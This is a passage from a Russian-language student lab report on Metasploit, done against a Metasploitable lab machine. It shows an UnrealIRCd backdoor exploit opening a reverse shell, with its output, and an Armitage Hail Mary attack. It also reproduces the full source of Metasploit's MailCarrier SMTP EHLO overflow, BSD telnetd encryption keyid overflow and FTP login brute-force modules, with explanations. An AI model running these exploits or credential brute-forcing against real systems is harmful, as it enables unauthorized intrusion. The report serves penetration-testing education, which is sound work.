drwxr-xr-x  13 0 root  4096 Mar 28 05:33 root
drwxr-xr-x   2 0 root  4096 May 13  2012 sbin
drwxr-xr-x   2 0 root  4096 Mar 16  2010 srv
drwxr-xr-x  12 0 root     0 Mar 28 05:33 sys
drwxrwxrwt   6 0 root  4096 Mar 29 01:54 tmp
drwxr-xr-x  12 0 root  4096 Apr 28  2010 usr
drwxr-xr-x  15 0 root  4096 May 20  2012 var
lrwxrwxrwx   1 0 root    29 Apr 28  2010 vmlinuz -> boot/vmlinuz-2.6.24-16-server

		\end{lstlisting}	

		Как видно, мы получили доступ к консоли и вывели содержимое директории.		
		
	\section{Получение консоли используя уязвимость в irc}

		Осуществим поиск модулей для использования уязвимостей в vsftpd:
		\begin{lstlisting}	
		msf exploit(vsftpd_234_backdoor) > search irc

Matching Modules
================

   Name                                              Disclosure Date  Rank       Description
   ----                                              ---------------  ----       -----------
   auxiliary/dos/windows/llmnr/ms11_030_dnsapi       2011-04-12       normal     Microsoft Windows DNSAPI.dll LLMNR Buffer Underrun DoS
   exploit/linux/misc/lprng_format_string            2000-09-25       normal     LPRng use_syslog Remote Format String Vulnerability
   exploit/multi/http/struts_default_action_mapper   2013-07-02       excellent  Apache Struts 2 DefaultActionMapper Prefixes OGNL Code Execution
   exploit/multi/http/sysaid_auth_file_upload        2015-06-03       excellent  SysAid Help Desk Administrator Portal Arbitrary File Upload
   exploit/multi/misc/legend_bot_exec                2015-04-27       excellent  Legend Perl IRC Bot Remote Code Execution
   exploit/multi/misc/pbot_exec                      2009-11-02       excellent  PHP IRC Bot pbot eval() Remote Code Execution
   exploit/multi/misc/ra1nx_pubcall_exec             2013-03-24       great      Ra1NX PHP Bot PubCall Authentication Bypass Remote Code Execution
   exploit/multi/misc/w3tw0rk_exec                   2015-06-04       excellent  w3tw0rk / Pitbul IRC Bot  Remote Code Execution
   exploit/multi/misc/xdh_x_exec                     2015-12-04       excellent  Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
   exploit/osx/misc/ufo_ai                           2009-10-28       average    UFO: Alien Invasion IRC Client Buffer Overflow
   exploit/unix/irc/unreal_ircd_3281_backdoor        2010-06-12       excellent  UnrealIRCD 3.2.8.1 Backdoor Command Execution
   exploit/windows/browser/mirc_irc_url              2003-10-13       normal     mIRC IRC URL Buffer Overflow
   exploit/windows/browser/ms06_013_createtextrange  2006-03-19       normal     MS06-013 Microsoft Internet Explorer createTextRange() Code Execution
   exploit/windows/emc/replication_manager_exec      2011-02-07       great      EMC Replication Manager Command Execution
   exploit/windows/misc/mirc_privmsg_server          2008-10-02       normal     mIRC PRIVMSG Handling Stack Buffer Overflow
   exploit/windows/misc/talkative_response           2009-03-17       normal     Talkative IRC v0.4.4.16 Response Buffer Overflow
   exploit/windows/misc/ufo_ai                       2009-10-28       average    UFO: Alien Invasion IRC Client Buffer Overflow


		\end{lstlisting}		
		Используем exploit exploit/unix/irc/unreal\_ircd\_3281\_backdoor:
		
		\begin{lstlisting}
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor 
msf exploit(unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  6667             yes       The target port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(unreal_ircd_3281_backdoor) > set RHOST 169.254.120.103
RHOST => 169.254.120.103
msf exploit(unreal_ircd_3281_backdoor) > exploit 

[*] Started reverse TCP double handler on 169.254.120.101:4444 
[*] Connected to 169.254.120.103:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo e5gPeh87ayDT0eQb;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "e5gPeh87ayDT0eQb\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (169.254.120.101:4444 -> 169.254.120.103:38206) at 2016-05-14 17:46:03 +0300

pwd
/etc/unreal
ls -l
total 392
-rw------- 1 0 root   1365 May 20  2012 Donation
-rw------- 1 0 root  17992 May 20  2012 LICENSE
drwx------ 2 0 root   4096 May 20  2012 aliases
--w----r-T 1 0 root   1175 May 20  2012 badwords.channel.conf
--w----r-T 1 0 root   1183 May 20  2012 badwords.message.conf
--w----r-T 1 0 root   1121 May 20  2012 badwords.quit.conf
-rwx------ 1 0 root 242894 May 20  2012 curl-ca-bundle.crt
-rw------- 1 0 root   1900 May 20  2012 dccallow.conf
drwx------ 2 0 root   4096 May 20  2012 doc
--w----r-T 1 0 root  49552 May 20  2012 help.conf
-rw------- 1 0 root   5212 Mar 29 01:54 ircd.log
-rw------- 1 0 root      6 Mar 28 05:33 ircd.pid
-rw------- 1 0 root      5 Mar 29 03:08 ircd.tune
drwx------ 2 0 root   4096 May 20  2012 modules
drwx------ 2 0 root   4096 May 20  2012 networks
--w----r-T 1 0 root   5656 May 20  2012 spamfilter.conf
drwx------ 2 0 root   4096 Mar 28 05:33 tmp
-rwx------ 1 0 root   4042 May 20  2012 unreal
--w----r-T 1 0 root   3884 May 20  2012 unrealircd.conf

		\end{lstlisting}
		Как видно из вывода, доступ к консоли был получен и было выведено содержимое директории.
		
	\section{Осуществление атаки при помощи утилиты Armitage}
		Запустим утилиту Armitage, затем произведем атаку Hail Mary на целевой хост.
		Результат представлен на рисунке~\ref{ris:armitage}.

		\begin{figure}[h]
			\centering
			
\includegraphics[width=0.9\textwidth]{imgs/hm.png}
			\caption{Произведение атаки Hail Mary при помощи утилиты Armitage}
			\label{ris:armitage}
		\end{figure}
	\section{Изучение файлов с исходным кодом эксплойтов}

		\subsection{smtp/mailcarrier\_smtp\_ehlo.rb}
			Полный путь к файлу: 
			/usr/share/metasploit-framework/modules/exploits/windows/smtp/mailcarrier\_smtp\_ehlo.rb
			Ниже приведен исходный код скрипта:
			\begin{lstlisting}
require 'msf/core'


class Metasploit3 < Msf::Exploit::Remote
  Rank = GoodRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'		=> 'TABS MailCarrier v2.51 SMTP EHLO Overflow',
      'Description'	=> %q{
          This module exploits the MailCarrier v2.51 suite SMTP service.
        The stack is overwritten when sending an overly long EHLO command.
      },
      'Author' 	    => [ 'patrick' ],
      'License'       => MSF_LICENSE,
      'References'    =>
      [
        [ 'CVE', '2004-1638' ],
        [ 'OSVDB', '11174' ],
        [ 'BID', '11535' ],
        [ 'EDB', '598' ],
      ],
      'Platform'      => ['win'],
      'Arch'		    => [ ARCH_X86 ],
      'Privileged'		=> true,
      'DefaultOptions'	=>
        {
          'EXITFUNC' 	=> 'thread',
        },
      'Payload' =>
        {
          #'Space'			=> 300,
          'BadChars' 		=> "\x00\x0a\x0d:",
          'StackAdjustment'	=> -3500,
        },
      'Targets' =>
        [
          # Patrick - Tested OK 2007/08/05 : w2ksp0, w2ksp4, xpsp0, xpsp2 en.
          [ 'Windows 2000 SP0 - XP SP1 - EN/FR/GR', { 'Ret' => 0x0fa14c63	} ], # jmp esp expsrv.dll w2ksp0 - xpsp1
          [ 'Windows XP SP2 - EN', 		  { 'Ret' => 0x0fa14ccf } ], # jmp esp expsrv.dll xpsp2 en
        ],
      'DisclosureDate' => 'Oct 26 2004',
      'DefaultTarget' => 0))

    register_options(
      [
        Opt::RPORT(25),
        Opt::LHOST(), # Required for stack offset
      ], self.class)
  end

  def check
    connect
    banner = sock.get_once || ''
    disconnect

    if banner.to_s =~ /ESMTP TABS Mail Server for Windows NT/
      return Exploit::CheckCode::Detected
    end
    return Exploit::CheckCode::Safe
  end

  def exploit
    connect

    sploit = "EHLO " + rand_text_alphanumeric(5106 - datastore['LHOST'].length, payload_badchars)
    sploit << [target['Ret']].pack('V') + payload.encoded

    sock.put(sploit + "\r\n")

    handler
    disconnect
  end

end
			\end{lstlisting}


Данный скрипт посылает smtp серверу очень длинное приветственное сообщение с командой EHLO - улиент хочет использовать расширенную версию smtp. Это вызывает перезапись стека.

		\subsection{telnet/telnet\_encrypt\_keyid.rb}
			Полный путь к файлу: 
			/usr/share/metasploit-framework/modules/exploits/linux/telnet/telnet\_encrypt\_keyid.rb
			Ниже приведен исходный код скрипта:
			\begin{lstlisting}

require 'msf/core'


class Metasploit3 < Msf::Exploit::Remote
  Rank = GreatRanking

  include Msf::Exploit::Remote::Telnet
  include Msf::Exploit::BruteTargets

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Linux BSD-derived Telnet Service Encryption Key ID Buffer Overflow',
      'Description'    => %q{
          This module exploits a buffer overflow in the encryption option handler of the
        Linux BSD-derived telnet service (inetutils or krb5-telnet). Most Linux distributions
        use NetKit-derived telnet daemons, so this flaw only applies to a small subset of
        Linux systems running telnetd.
        },
      'Author'         => [ 'Jaime Penalba Estebanez <jpenalbae[at]gmail.com>', 'Brandon Perry <bperry.volatile[at]gmail.com>', 'Dan Rosenberg', 'hdm' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          ['CVE', '2011-4862'],
          ['OSVDB', '78020'],
          ['BID', '51182'],
          ['EDB', '18280']
        ],
      'Privileged'     => true,
      'Platform'       => 'linux',
      'Payload'        =>
        {
          'Space'       => 200,
          'BadChars'    => "\x00",
          'DisableNops' => true,
        },

      'Targets'        =>
        [
          [ 'Automatic',  { } ],
          [ 'Red Hat Enterprise Linux 3 (krb5-telnet)', { 'Ret' => 0x0804b43c } ],
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'Dec 23 2011'))
  end

  def exploit_target(t)

    connect
    banner_sanitized = Rex::Text.to_hex_ascii(banner.to_s)
    vprint_status(banner_sanitized)

    enc_init      = "\xff\xfa\x26\x00\x01\x01\x12\x13\x14\x15\x16\x17\x18\x19\xff\xf0"
    enc_keyid     = "\xff\xfa\x26\x07"
    end_suboption = "\xff\xf0"

    penc = payload.encoded.gsub("\xff", "\xff\xff")

    key_id = Rex::Text.rand_text_alphanumeric(400)

    key_id[ 0, 2] = "\xeb\x76"
    key_id[72, 4] = [ t['Ret'] - 20 ].pack("V")
    key_id[76, 4] = [ t['Ret'] ].pack("V")

    # Some of these bytes can get mangled, jump over them
    key_id[80,40]  = "\x41" * 40

    # Insert the real payload
    key_id[120, penc.length] = penc

    # Create the Key ID command
    sploit = enc_keyid + key_id + end_suboption

    # Initiate encryption
    sock.put(enc_init)

    # Wait for a successful response
    loop do
      data = sock.get_once(-1, 5) rescue nil
      if not data
        fail_with(Failure::Unknown, "This system does not support encryption")
      end
      break if data.index("\xff\xfa\x26\x02\x01")
    end

    # The first request smashes the pointer
    print_status("Sending first payload")
    sock.put(sploit)

    # Make sure the server replied to the first request
    data = sock.get_once(-1, 5)
    unless data
      print_status("Server did not respond to first payload")
      return
    end

    # Some delay between each request seems necessary in some cases
    ::IO.select(nil, nil, nil, 0.5)

    # The second request results in the pointer being called
    print_status("Sending second payload...")
    sock.put(sploit)
    handler

    ::IO.select(nil, nil, nil, 0.5)
    disconnect
  end

end

			\end{lstlisting}
						
			Скрипт работает по следующему алгоритму:
			\begin{enumerate}
				\item Сначала происходит первоначальная инициализация и подготовка данных для шифрования ключа
				\begin{lstlisting}
   connect
    banner_sanitized = Rex::Text.to_hex_ascii(banner.to_s)
    vprint_status(banner_sanitized)

    enc_init      = "\xff\xfa\x26\x00\x01\x01\x12\x13\x14\x15\x16\x17\x18\x19\xff\xf0"
    enc_keyid     = "\xff\xfa\x26\x07"
    end_suboption = "\xff\xf0"

    penc = payload.encoded.gsub("\xff", "\xff\xff")

    key_id = Rex::Text.rand_text_alphanumeric(400)

    key_id[ 0, 2] = "\xeb\x76"
    key_id[72, 4] = [ t['Ret'] - 20 ].pack("V")
    key_id[76, 4] = [ t['Ret'] ].pack("V")

    # Some of these bytes can get mangled, jump over them
    key_id[80,40]  = "\x41" * 40
				\end{lstlisting}
				
				\item Добавляется полезная нагрузка, создается команда KEY ID и инициилизируется шифрования.
				\begin{lstlisting}
# Insert the real payload
    key_id[120, penc.length] = penc

    # Create the Key ID command
    sploit = enc_keyid + key_id + end_suboption

    # Initiate encryption
    sock.put(enc_init)
				\end{lstlisting}
				
				\item Ожидается успешный ответ от сервера
				\begin{lstlisting}
 # Wait for a successful response
    loop do
      data = sock.get_once(-1, 5) rescue nil
      if not data
        fail_with(Failure::Unknown, "This system does not support encryption")
      end
      break if data.index("\xff\xfa\x26\x02\x01")
    end
				\end{lstlisting}
				
				\item Удостовериваемся что сервер ответил на 1ый запрос
	\begin{lstlisting}
# The first request smashes the pointer
    print_status("Sending first payload")
    sock.put(sploit)

    # Make sure the server replied to the first request
    data = sock.get_once(-1, 5)
    unless data
      print_status("Server did not respond to first payload")
      return
    end
			\end{lstlisting}
			\item Затем производится небольшая задержка и получения второго ответа с указателем, который был вызван и отключение от сервера
			\begin{lstlisting}
			# Some delay between each request seems necessary in some cases
    ::IO.select(nil, nil, nil, 0.5)

    # The second request results in the pointer being called
    print_status("Sending second payload...")
    sock.put(sploit)
    handler

    ::IO.select(nil, nil, nil, 0.5)
    disconnect
			\end{lstlisting}
			
			\end{enumerate}
		\subsection{ftp\_login.rb}
		Полный путь к файлу: 
		/usr/share/metasploit-framework/modules/auxiliary/scanner/ftp/ftp\_login.rb.
		Ниже приведен исходный код модуля:
		\begin{lstlisting}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
require 'msf/core'
require 'metasploit/framework/credential_collection'
require 'metasploit/framework/login_scanner/ftp'
class Metasploit3 < Msf::Auxiliary
include Msf::Exploit::Remote::Ftp
include Msf::Auxiliary::Scanner
include Msf::Auxiliary::Report
include Msf::Auxiliary::AuthBrute
def proto
'ftp'
end
def initialize
super(
'Name'        => 'FTP Authentication Scanner',
'Description' => %q{
This module will test FTP logins on a range of machines and
report successful logins.  If you have loaded a database plugin
and connected to a database this module will record successful
logins and hosts so you can track your access.
},
'Author'      => 'todb',
'References'     =>
[
[ 'CVE', '1999-0502'] # Weak password
],
'License'     => MSF_LICENSE
)
register_options(
[
Opt::Proxies,
Opt::RPORT(21),
OptBool.new('RECORD_GUEST', [ false, "Record anonymous/guest logins to the 
database", false])
], self.class)
register_advanced_options(
[
OptBool.new('SINGLE_SESSION', [ false, 'Disconnect after every login attempt', 
false])
]
)
deregister_options('FTPUSER','FTPPASS') # Can use these, but should use 
'username' and 'password'
@accepts_all_logins = {}
end
def run_host(ip)
print_status("#{ip}:#{rport} - Starting FTP login sweep")
cred_collection = Metasploit::Framework::CredentialCollection.new(
blank_passwords: datastore['BLANK_PASSWORDS'],
pass_file: datastore['PASS_FILE'],
password: datastore['PASSWORD'],
user_file: datastore['USER_FILE'],
userpass_file: datastore['USERPASS_FILE'],
username: datastore['USERNAME'],
user_as_pass: datastore['USER_AS_PASS'],
prepended_creds: anonymous_creds
)
cred_collection = prepend_db_passwords(cred_collection)
scanner = Metasploit::Framework::LoginScanner::FTP.new(
host: ip,
port: rport,
proxies: datastore['PROXIES'],
cred_details: cred_collection,
stop_on_success: datastore['STOP_ON_SUCCESS'],
bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
max_send_size: datastore['TCP::max_send_size'],
send_delay: datastore['TCP::send_delay'],
connection_timeout: 30,
framework: framework,
framework_module: self,
ssl: datastore['SSL'],
ssl_version: datastore['SSLVersion'],
ssl_verify_mode: datastore['SSLVerifyMode'],
ssl_cipher: datastore['SSLCipher'],
local_port: datastore['CPORT'],
local_host: datastore['CHOST']
)
scanner.scan! do |result|
credential_data = result.to_h
credential_data.merge!(
module_fullname: self.fullname,
workspace_id: myworkspace_id
)
if result.success?
credential_core = create_credential(credential_data)
credential_data[:core] = credential_core
create_credential_login(credential_data)
print_good "#{ip}:#{rport} - LOGIN SUCCESSFUL: #{result.credential}"
else
invalidate_login(credential_data)
vprint_error "#{ip}:#{rport} - LOGIN FAILED: #{result.credential} 
(#{result.status}: #{result.proof})"
end
end
end
# Always check for anonymous access by pretending to be a browser.
def anonymous_creds
anon_creds = [ ]
if datastore['RECORD_GUEST']
['IEUser@', 'User@', 'mozilla@example.com', 'chrome@example.com' ].each do 
|password|
anon_creds << Metasploit::Framework::Credential.new(public: 'anonymous', 
private: password)
end
end
anon_creds
end
def test_ftp_access(user,scanner)
dir = Rex::Text.rand_text_alpha(8)
write_check = scanner.send_cmd(['MKD', dir], true)
if write_check and write_check =~ /^2/
scanner.send_cmd(['RMD',dir], true)
print_status("#{rhost}:#{rport} - User '#{user}' has READ/WRITE access")
return 'Read/Write'
else
print_status("#{rhost}:#{rport} - User '#{user}' has READ access")
return 'Read-only'
end
end
end
		\end{lstlisting}
		Скрипт работает по следующему алгоритму:
		\begin{enumerate}
			\item Вызывается метод run\_host, который производит сканирование.
			Создаются экземпляры учетных данных и сканера.
			\begin{lstlisting}
cred_collection = Metasploit::Framework::CredentialCollection.new(
blank_passwords: datastore['BLANK_PASSWORDS'],
pass_file: datastore['PASS_FILE'],
password: datastore['PASSWORD'],
user_file: datastore['USER_FILE'],
userpass_file: datastore['USERPASS_FILE'],
username: datastore['USERNAME'],
user_as_pass: datastore['USER_AS_PASS'],
prepended_creds: anonymous_creds
)
cred_collection = prepend_db_passwords(cred_collection)
scanner = Metasploit::Framework::LoginScanner::FTP.new(
host: ip,
port: rport,
proxies: datastore['PROXIES'],
cred_details: cred_collection,
stop_on_success: datastore['STOP_ON_SUCCESS'],
bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
max_send_size: datastore['TCP::max_send_size'],
send_delay: datastore['TCP::send_delay'],
connection_timeout: 30,
framework: framework,
framework_module: self,
ssl: datastore['SSL'],
ssl_version: datastore['SSLVersion'],
ssl_verify_mode: datastore['SSLVerifyMode'],
ssl_cipher: datastore['SSLCipher'],
local_port: datastore['CPORT'],
local_host: datastore['CHOST']
)
			\end{lstlisting}
			
			\item Производится сканирование:
			\begin{lstlisting}
scanner.scan! do |result|
credential_data = result.to_h
credential_data.merge!(
module_fullname: self.fullname,
workspace_id: myworkspace_id
)
if result.success?
credential_core = create_credential(credential_data)
credential_data[:core] = credential_core
create_credential_login(credential_data)
print_good "#{ip}:#{rport} - LOGIN SUCCESSFUL: #{result.credential}"
else
invalidate_login(credential_data)
vprint_error "#{ip}:#{rport} - LOGIN FAILED: #{result.credential} 
(#{result.status}: #{result.proof})"
end
			\end{lstlisting}
		\end{enumerate}
	
	\section{Выводы}
	В ходе выполнения лабораторной работы было произведено ознакомление с инструментом для осуществления тестов на проникновение Metasploit. 
	Были изучены и применены различные типы атак на целевую машину с использованием известных уязвимотсей из базы Metasploit.
	Была рассмотрена графическая оболочка Armitage и применена атака Hail Mary для нахождения и эксплуатации всех найденных уязвимостей.
	Также были  раасмотрены некоторые скрипты для использования известных уязвимостей.
\end{document}